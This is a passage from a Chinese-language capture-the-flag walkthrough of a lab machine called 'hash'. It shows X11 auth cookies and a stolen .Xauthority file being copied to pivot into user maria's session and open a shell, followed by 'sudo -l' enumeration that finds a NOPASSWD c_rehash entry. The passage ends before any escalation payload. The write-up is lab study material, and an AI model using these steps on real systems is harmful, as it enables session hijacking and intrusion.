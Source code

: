 ```bash
hash/unix:0  MIT-MAGIC-COOKIE-1  6d6272a70ffe8bbe8b3c72c5ec8ba46b
hash/unix:10  MIT-MAGIC-COOKIE-1  cc2188de2535cc4ff95173e0c514737d
```

尝试进行替换一下，看看能不能弹回正确的：

```bash
marco@hash:/home/maria$ cp ../marco/.Xauthority .Xauthority 
marco@hash:/home/maria$ ls -la
total 36
drwxr-xr-x 3 maria maria 4096 Feb  5  2021 .
drwxr-xr-x 4 root  root  4096 Feb  5  2021 ..
-rw-r--r-- 1 maria maria  220 Feb  5  2021 .bash_logout
-rw-r--r-- 1 maria maria 3526 Feb  5  2021 .bashrc
drwxr-xr-x 3 maria maria 4096 Feb  5  2021 .local
-rwxr-xr-x 1 maria maria   25 Feb  5  2021 myterm.sh
-rw-r--r-- 1 maria maria  807 Feb  5  2021 .profile
-rw-r--r-- 1 maria maria   66 Feb  5  2021 .selected_editor
-rwxrwxrwx 1 maria maria  149 Jun 11 09:06 .Xauthority
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236459.png" alt="image-20250611213605992" style="zoom: 33%;" />

尝试弹回shell！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236461.png" alt="image-20250611213828112" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236462.png" alt="image-20250611213851685" style="zoom: 50%;" />

### Maria信息搜集

```bash
(remote) maria@hash:/home/maria$ ls -la
total 36
drwxr-xr-x 3 maria maria 4096 Feb  5  2021 .
drwxr-xr-x 4 root  root  4096 Feb  5  2021 ..
-rw-r--r-- 1 maria maria  220 Feb  5  2021 .bash_logout
-rw-r--r-- 1 maria maria 3526 Feb  5  2021 .bashrc
drwxr-xr-x 3 maria maria 4096 Feb  5  2021 .local
-rwxr-xr-x 1 maria maria   25 Feb  5  2021 myterm.sh
-rw-r--r-- 1 maria maria  807 Feb  5  2021 .profile
-rw-r--r-- 1 maria maria   66 Feb  5  2021 .selected_editor
-rwxrwxrwx 1 maria maria  149 Jun 11 09:06 .Xauthority
(remote) maria@hash:/home/maria$ sudo -l
Matching Defaults entries for maria on hash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User maria may run the following commands on hash:
    (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
(remote) maria@hash:/home/maria$ file /usr/bin/c_rehash
/usr/bin/c_rehash: Perl script text executable
(remote) maria@hash:/home/maria$ cat /usr/bin/c_rehash
#!/usr/bin/perl

# WARNING: do not edit!
# Generated by Makefile from ../tools/c_rehash.in
# Copyright 1999-2018 The OpenSSL Project Authors. All Rights Reserved.
#
# Licensed under the OpenSSL license (the "License").  You may not use
# this file except in compliance with the License.  You can obtain a copy
# in the file LICENSE in the source distribution or at
# https://www.openssl.org/source/license.html

# Perl c_rehash script, scan all files in a directory
```